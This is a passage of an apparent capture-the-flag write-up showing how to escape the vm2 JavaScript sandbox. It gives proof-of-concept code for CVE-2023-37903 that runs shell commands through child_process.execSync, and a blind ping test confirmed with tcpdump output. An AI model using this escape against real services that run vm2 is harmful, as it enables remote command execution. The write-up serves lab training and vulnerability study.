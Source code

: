 
The only trick here is seeing that it is using the `child_process` module’s `execSync` function to run `touch pwned`, which will create a `pwned` file in the current directory. That doesn’t help much at this point, as I don’t have access to the filesystem to see the result. I’ll want to change it to something I can see, like `id`, and then paste it in, and the result is the output of that command on Codify:

![image-20240403195800662](/img/image-20240403195800662.png)

#### CVE-2023-37903

[CVE-2023-37903](https://security.snyk.io/vuln/SNYK-JS-VM2-5772823) abuses how NodeJS allows for a custom `inspect` function to be defined:

```

const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});

```

This POC has the same issue that I need to change the payload from `touch pwned` to something else, but even then, it doesn’t show the result:

![image-20240404072941416](/img/image-20240404072941416.png)

What’s returned is a JavaScript `Promise` object. There are probably ways to get the result from this, but I wasn’t able to figure it out with my limited JavaScript skills. Instead, I’ll test a blind payload, like `ping`. I’ll start `tcpdump` on my host listening for ICMP packets, and then run `ping -c 1 10.10.14.6` (the `-c 1` is important on Linux systems as without it, `ping` will run forever):

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:46:49.800538 IP 10.10.11.239 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
02:46:49.800564 IP 10.10.14.6 > 10.10.11.239: ICMP echo reply, id 2, seq 1, length 64

```

An ICMP packet arrives at my host, which is evidence that the code executed.

#### CVE-2023-37466
